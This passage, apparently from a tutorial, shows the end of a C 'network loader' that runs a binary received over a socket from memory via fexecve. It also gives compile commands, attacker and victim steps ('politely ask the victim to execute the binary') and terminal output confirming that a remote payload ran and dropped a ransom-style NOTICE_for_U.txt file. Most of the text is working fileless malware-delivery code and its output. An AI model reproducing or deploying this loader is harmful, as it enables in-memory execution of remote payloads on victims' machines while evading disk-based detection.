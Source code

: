 ```c
  printf("\n ----------------------------------- \n");

  printf("[ + ] Starting execution...\n");

  // Change argv params
  // printf("BEFORE:  %s %s %s %s\n", argv[0], argv[1], argv[2], argv[3]);
  for(int i=0; i<argc; ++i)
  	argv[i]  = argv[i+1];
  // printf("AFTER:   %s %s %s %s\n", argv[0], argv[1], argv[2], argv[3]);

  // Execute fd1 - with new argv
  fexecve(fd1, argv, envp);

  // If fexecve returns, then it is failed.
  printf("Failed Executing....\n");

  return errno;
}
```

Compile it --> `gcc network_loader.c -o network_loader.o`

With this, we have everything ready with us. Some more steps and we are done.

1. Start the python server on attacker's machine. - `python3 python_server.py`
2. Place the `network_loader.o` on victim's machine.
3. Politely ask the victim to execute the binary - `./network_loader.o 192.168.56.56 1234`
4. Sit back and enjoy!

```

## On Attacker's machine
$ python3 python_server.py

16800
<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('192.168.56.56', 1234), raddr=('192.168.56.56', 50812)> ('192.168.56.56', 50812)




## on victim's machine
$ ./network_loader.o 192.168.56.56 1234

[ * ] Trying to create a mem file...  
[ + ] Created mem file and attached to fd = 3
-----------------------------------
Read count =  16800  |  Write count = 16800
-----------------------------------
[ + ] Starting execution...
```

And if we check the victim's working directory we can see a file with name `NOTICE_for_U.txt` there.... which confirms that the remote binary successfully ran on victim's machine.
